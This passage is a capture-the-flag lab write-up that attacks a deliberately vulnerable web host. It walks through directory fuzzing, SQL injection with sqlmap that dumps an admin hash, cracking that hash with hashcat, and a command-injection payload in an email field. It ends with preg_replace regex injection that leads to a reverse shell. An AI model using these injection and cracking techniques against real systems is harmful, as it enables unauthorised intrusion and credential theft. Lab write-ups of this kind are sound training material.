Moving forward to the HTTP service running on standard port 80/TCP we know from our initial enumeration that website is pointing to default placeholder page of NGINX.

Surfing manually on the browser shows us our first flag:



Next thing checking with Extensions like "Wappalyzer" we can identify the website running Nginx webserver, version 1.10.3 on a Ubuntu machine.



Again here no relevant CVE are out in the wild that can help us targeting this specific version of NGINX webserver so I will move on.

Next thing we can try to do some manual fuzzing, at least on Web directories and eventually on VHOSTS if we find the base one!

* * *

## Fuzzing time

Surprisingly no hidden directories are found on the HTTP - 80/TCP service so far:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u "http://10.13.37.10/"

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_10.13.37.10/__23-07-27_10-28-39.txt

Target: http://10.13.37.10/

[10:28:39] Starting: 
[10:28:40] 403 -  580B  - /.ht_wsr.txt                                      
[10:28:40] 403 -  580B  - /.htaccess.bak1                                   
[10:28:40] 403 -  580B  - /.htaccess.orig                                   
[10:28:40] 403 -  580B  - /.htaccess.sample
[10:28:40] 403 -  580B  - /.htaccess.save
[10:28:40] 403 -  580B  - /.htaccess_extra                                  
[10:28:40] 403 -  580B  - /.htaccess_orig
[10:28:40] 403 -  580B  - /.htaccess_sc
[10:28:40] 403 -  580B  - /.htaccessBAK
[10:28:40] 403 -  580B  - /.htaccessOLD
[10:28:40] 403 -  580B  - /.htaccessOLD2                                    
[10:28:40] 403 -  580B  - /.htm                                             
[10:28:40] 403 -  580B  - /.html
[10:28:40] 403 -  580B  - /.httr-oauth                                      
[10:28:40] 403 -  580B  - /.htpasswds
[10:28:40] 403 -  580B  - /.htpasswd_test                                   
                                                                             
Task Completed
```

* * *

## Again, with the right FQDN

Now that we found the real FQDN of the VHOST if we can surf the real website:



And at the end of page we can grab the second flag:



Now moving along seems like nothing interesting is available on the website, so checking again for hidden paths in the web directories unveil a link to 2 JavaScript files used by website:





The first one is not that relevant as is part of the Template on the website but the Secure.js is much more, indeed if we try to open it appears as "poorly" obfuscated by encoding the content as CHARCODE:



And if we try to decode from CHARCODE --> STRING:

```JavaScript
function getStats()
{
    $.ajax({url: "/dirb_safe_dir_rf9EmcEIx/admin/stats.php",

        success: function(result){
        $('#attacks').html(result)
    },
    error: function(result){
         console.log(result);
    }});
}
getStats();
setInterval(function(){ getStats(); }, 10000);'
```

It's a link to a hidden folder with some STATS, and I guess we will need admin access to it, but let's start by open it in a browser:



And under stats we get a number:



And magically checking the source code of that Admin login page we can grab another flag towards victory:



* * *

## Bypassing the Auth Login

When we find a Login page it's awlays connected with some kind of SQL in the backend, and when input fields are not sanitized before sending back to backend it happens to be explitable with what in Cybersec slang SQLi or SQL Injection.

Easiest is to send the login via SQLMAP:



And after several seconds the tools finds that username is injectable:

```Bash
[12:03:36] [INFO] testing if the target URL content is stable
[12:03:36] [WARNING] POST parameter 'username' does not appear to be dynamic
[12:03:37] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[12:03:37] [INFO] testing for SQL injection on POST parameter 'username'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
```

We could also check that manually by sending this payload:



We could see that website responds back with admin username:



But eventually we dumped the content of the DB:



And checking for tables into jetadmin DB:



And what's in that users?

```Bash
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [y/N/q] N
Database: jetadmin
Table: users
[1 entry]
+----+----------+------------------------------------------------------------------+
| id | username | password                                                         |
+----+----------+------------------------------------------------------------------+
| 1  | admin    | 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084 |
+----+----------+------------------------------------------------------------------+

[12:15:01] [INFO] table 'jetadmin.users' dumped to CSV file '/root/.local/share/sqlmap/output/www.securewebinc.jet/dump/jetadmin/users.csv'
[12:15:01] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/root/.local/share/sqlmap/output/results-07272023_1215pm.csv'
```

We  have the admin user and it's password, let's see if we can crack it? If we try to identify the Hash type seems like it's a SHA256:



And indeed we can crack it with hashcat:

```Bash
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b0445b235d5084:Hackthesystem200
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1400 (SHA2-256)
Hash.Target......: 97114847aa12500d04c0ef3aa6ca1dfd8fca7f156eeb864ab9b...5d5084
Time.Started.....: Thu Jul 27 12:18:16 2023 (5 secs)
Time.Estimated...: Thu Jul 27 12:18:21 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2368.4 kH/s (0.68ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 11114496/14344385 (77.48%)
Rejected.........: 0/11114496 (0.00%)
Restore.Point....: 11108352/14344385 (77.44%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Happy bunny -> HOSMELL

Started: Thu Jul 27 12:18:04 2023
Stopped: Thu Jul 27 12:18:22 2023
```

* * *

## Getting into Portal

Logging into Admin portal with cracked hash we can can see another flag:



We can see the used version:



Now we have to identiy the service and from the HTML source code:



We can see that the appllication is called AdminLTE wiith version 2.4.0:



And checking for potential exploits we can see some XSSes: https://security.snyk.io/package/npm/admin-lte/2.4.0

So far seems like everithing on the website is static, execpt the Email function:



Now looking around I found this exploit for PI-Hole web that used same AdminLTE version 2.4.0 and it's suceptible to Command injection via email address field: https://github.com/pr0tean/CVE-2019-13051

Which means preparing the email field like so:


With a malformed email field the application fails in validation and indeed it executes the command on the backend instead of sending the email, this is executatble by a command into a couple of back ticks into a couple of dowuble quotes. 

```BAsh
"`test>/tmp/poc_proof.txt`"@example.com
```

Withing 10 minutes the command should be executed and invoke a Revshell into out NC listening. The frontend is doing some string checkup and in order to bypass it we can grab the request via Burpsuite and send the payload in URL encoding resulting the send of the email:



I couldn't make it work. So I checked for tips and Apparently the code have to be injected into Safewords ex:



Should become something like:



The explanation is that the POST Data is using regex expresions and is explained in this article: https://blog.deesee.xyz/regex/security/2020/12/27/regular-expression-injection.html



After several tried I found that is not enough to setup the preg_replace, it have to be invoked as well which means when we prepare the payload ex for swearwords /fuck, then It have to be written in the Message field to be replaced ex:



Doing so we get a execution of the command:



Now we can run the RCE:





And so we can grab another flag!



* * *